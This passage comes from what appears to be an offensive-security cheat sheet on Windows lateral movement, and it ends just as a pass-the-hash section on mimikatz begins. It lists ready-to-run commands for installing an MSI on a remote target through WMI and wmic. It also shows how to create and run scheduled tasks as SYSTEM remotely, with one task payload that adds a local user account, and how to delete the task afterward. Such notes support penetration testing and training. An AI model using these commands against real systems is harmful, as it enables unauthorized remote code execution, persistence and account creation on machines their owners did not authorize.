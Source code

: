 ### [-] Using WMI PowerShell connection

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "%windir%/myinstaller.msi"; Options = ""; AllUsers = $false}
```

### [-] Using wmic

```powershell
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```

---

# [=] **Creating Scheduled Tasks Remotely**

## [+] Using `schtasks`

- You can create and run one remotely with `schtasks`, available in any Windows installation.
    
    ```bash
    schtasks /s $TARGET /RU "SYSTEM" /create /tn "**TaskName**" /tr "**<command/payload to execute>**" /sc ONCE /sd 01/01/1970 /st 00:00
    
    schtasks /s $TARGET /run /TN "**TaskName**"
    ```
    

## [+] Using WMI

```powershell
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user **username** **password** /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "**TaskName**"
Start-ScheduledTask -CimSession $Session -TaskName "**TaskName**"
```

### [-] Delete the schedule task

```powershell
Unregister-ScheduledTask -CimSession $Session -TaskName "**TaskName**"
```

# [=] Pass The Hash (PtH)

- you can do PtH with NTLM authentication not Kerberos

## [+] mimikatz

